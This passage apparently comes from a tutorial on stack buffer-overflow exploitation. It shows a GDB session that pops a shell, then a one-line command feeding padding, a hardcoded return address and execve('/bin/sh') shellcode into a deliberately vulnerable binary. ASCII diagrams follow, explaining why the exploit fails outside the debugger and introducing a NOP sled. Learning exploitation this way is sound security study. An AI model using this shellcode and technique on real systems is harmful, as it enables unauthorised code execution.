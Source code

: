 ```sh
Error in re-setting breakpoint 2: No source file named /home/noobuntu/nightmare/bof/shellcodin/vulnerable.c.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
$ id
[Detaching after vfork from child process 4241]
uid=1000(noobuntu) gid=1000(noobuntu) groups=1000(noobuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
$
[Inferior 1 (process 4235) exited normally]
```


## Outside of GDB and NOP sledding

- Using our previous exploit outside of `gdb` will fail:

```sh
$ ./bin/silly 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\x64\xcf\xff\xff'+b'A'*4+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'\x00')"`
-bash: warning: command substitution: ignored null byte in input
Segmentation fault (core dumped)
```

- Simple explanation for this is that without `gdb` addresses are now positioned higher than what they used to be.
- In other words memory address layout is different, thus segmentation fault occurs.
- Visually:

```sh

    with gdb                 without gdb

  .------------.           .------------.
  |            |           |            |
  | gdb junk   |           :            :  
  |            |            
  :            :           :            :
                           |            |
  :            :           | shell code |
  |            |           | padding    |
  |            |           | ret addr   |--.
  |            |           :            :  |
  | shell code | <-.                     <-'
  | padding    |   |                            
  | ret addr   |---'
```

- However, this can be corrected using NOP sled:


```sh

    without nops           with nops         

  .------------.         .------------.
  |            |         |            |
  :            :         :            :

  :            :         :            :
  |            |         |            |
  | shell code |         | shell code |
  | padding    |         | nop        |
  | ret addr   |--.      | nop        |
  :            :  |      | nop        |
                <-'      | nop        |<-.
```